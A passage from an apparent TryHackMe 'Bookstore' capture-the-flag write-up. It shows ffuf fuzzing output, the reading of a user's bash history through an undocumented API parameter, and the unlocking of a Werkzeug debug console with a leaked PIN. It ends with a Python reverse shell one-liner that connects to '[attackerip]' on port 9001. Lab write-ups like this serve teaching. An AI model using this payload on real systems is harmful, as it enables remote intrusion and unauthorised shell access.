 ```bash
  :: Calibration      : false
  :: Timeout          : 10
  :: Threads          : 40
  :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
  ________________________________________________

  author                  [Status: 200, Size: 3, Words: 1, Lines: 2, Duration: 56ms]
  id                      [Status: 200, Size: 3, Words: 1, Lines: 2, Duration: 44ms]
  published               [Status: 200, Size: 3, Words: 1, Lines: 2, Duration: 52ms]
  show                    [Status: 200, Size: 1555, Words: 9, Lines: 31, Duration: 45ms]
```

The `show` parameter wasn't listed in the API documentation, so I tried to read Sid's Bash history and was successful:

![Sids Bash History](/assets/img/tryhackme/Bookstore/thm_bookstore_4.jpg)

### Directory /console Analysis 

The directory displayed a locked console that required a PIN:

![Console](/assets/img/tryhackme/Bookstore/thm_bookstore_5.jpg)

Since I had obtained the `WERKZEUG_DEBUG_PIN` through the API earlier, I tried the PIN as the console password and successfully authenticated. The console featured a Python terminal, which allowed me to remotely execute Python commands. I tested this with the `print` command: 
```python
  [console ready]
  >>> print("test")
  test
```

Great! Next, I attempted to connect to my machine using a reverse shell payload:
```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("[attackerip]",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")
```
